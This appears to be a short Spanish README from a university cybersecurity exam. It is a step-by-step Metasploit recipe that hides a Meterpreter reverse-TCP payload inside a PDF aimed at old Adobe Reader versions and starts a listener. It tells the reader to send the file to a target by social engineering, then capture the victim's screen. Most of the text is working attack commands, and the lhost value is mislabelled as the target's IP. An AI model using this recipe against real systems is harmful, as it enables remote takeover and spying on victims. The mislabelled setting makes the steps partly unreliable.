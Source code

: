 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x <br />
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
set lhost <ip_maquina_a_atacar> <br />
set lport 4444 <br />
set infilename /root/parcial/el_gigante_egoista.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost <ip_maquina_a_atacar> <br />
set lport 4444 <br />
exploit <br /> 
<br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab
